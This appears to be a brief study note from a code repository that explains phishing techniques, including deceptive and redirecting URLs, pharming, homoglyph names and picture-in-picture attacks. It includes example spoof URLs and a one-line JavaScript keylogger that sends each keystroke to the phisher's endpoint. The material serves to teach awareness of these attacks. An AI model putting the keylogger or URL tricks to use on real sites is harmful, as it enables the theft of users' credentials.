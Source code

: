 # Phishing
Phishing is a cybercrime in which a target or targets are contacted by email, telephone or text message by someone posing as a legitimate institution to lure individuals into providing sensitive data such as personally identifiable information, banking and credit card details, and passwords.
## Phishing techniques
* Use confusing URLs
    * http://gadula.net/.Wells.Fargo.com/signin.html
* Use URL with multiple redirection
  * http://www.chase.com/url.php?url=“http://phish.com”
* Host phishing sites on botnet zombies
  * Move from bot to bot using dynamic DNS
* Pharming
  * Poison DNS tables so that address typed by victim (e.g., www.paypal.com) points to the phishing site
  * URL checking doesn’t help!
* Trusted input path problem
```js
<input type="text" name="spoof" onKeyPress="(new Image()).src=’keylogger.php?key=’ +String.fromCharCode( event.keyCode );event.keyCode = 183;” >
```
This script send the keystroke to the phisher and changes character to *.
* Social Engineering Tricks
  * Exploit social relationships
  * Weird names such as Fącebooƙ Şecurițy
* Picture-in-Picture attack
  * The virtual browser of real website is loaded in phiser website
* Passive warnings are unable to block phishing at all
  * Only active warning with strong visual message can block phishing
  * Cost-effective attack 
  * If combined with social engineering, it becomes much more powerful
  * Password alone is not a secure authentication method